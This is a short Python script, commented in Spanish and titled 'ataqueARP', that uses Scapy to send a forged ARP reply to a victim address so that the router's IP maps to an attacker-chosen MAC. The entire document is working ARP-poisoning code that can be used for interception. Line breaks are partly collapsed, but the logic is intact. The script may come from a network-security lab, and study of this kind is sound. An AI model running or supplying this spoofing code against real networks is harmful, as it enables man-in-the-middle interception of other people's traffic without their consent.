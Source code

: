 # ataqueARP
#en este se muestra un ataque mediante scappy y phyton para poder cambiar las tablas arp de la maquina vulnerada 

from scapy.all import * 
# Función para enviar un paquete ARP falsificado 
def send_arp_packet(target_ip, target_mac, spoofed_ip, spoofed_mac): arp_response = ARP(op=2, psrc=spoofed_ip, pdst=target_ip, hwsrc=spoofed_mac) send(arp_response, verbose=False) 
# Direcciones MAC e IPs involucradas 
victim_ip = "192.168.100.197" # IP de la víctima 
victim_mac = "08:00:27:67:7B:62" # MAC actual de la víctima 
spoofed_ip = "192.168.100.198" # IP del router (o el que quieras suplantar) 
spoofed_mac = "08:00:27:ee:48:77" # MAC falsificada que deseas poner en la víctima # Enviamos el paquete ARP falsificado 
send_arp_packet(victim_ip, victim_mac, spoofed_ip, spoofed_mac) print(f"Enviado un paquete ARP falsificado a {victim_ip} con la MAC {spoofed_mac}")
